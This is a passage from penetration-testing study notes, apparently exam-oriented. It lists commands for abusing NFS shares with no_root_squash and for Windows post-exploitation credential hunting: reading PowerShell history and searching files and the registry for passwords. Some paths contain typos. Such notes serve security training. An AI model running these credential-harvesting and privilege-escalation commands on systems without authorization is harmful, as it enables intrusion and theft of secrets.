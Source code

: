 ```bash
# Mountable share
# On targets
cat /etc/exports 
# On attacker
showmount -e <target IP> 
# Check for "no_root_squash" in the output of shares

mount -o rw <targetIP>:<share-location> <directory path we created>
# Now create a binary there
chmod +x <binary>
```

---

# Post Exploitation

> This is more windows specific as exam specific.

<aside>
💡 Run WinPEAS.exe - This may give us some more detailed information as no we’re a privileged user and we can open several files, gives some edge!

</aside>

## PowerShell History

```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\bash\PSReadline\ConsoleHost_history.txt

# Example
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\bash\PSReadline\ConsoleHost_history.txt 
```

## Searching for passwords

```bash
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

## Searching in Registry for Passwords

```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

<aside>
💡 Always check documents folders, i may contain some juicy files

</aside>

## KDBX Files
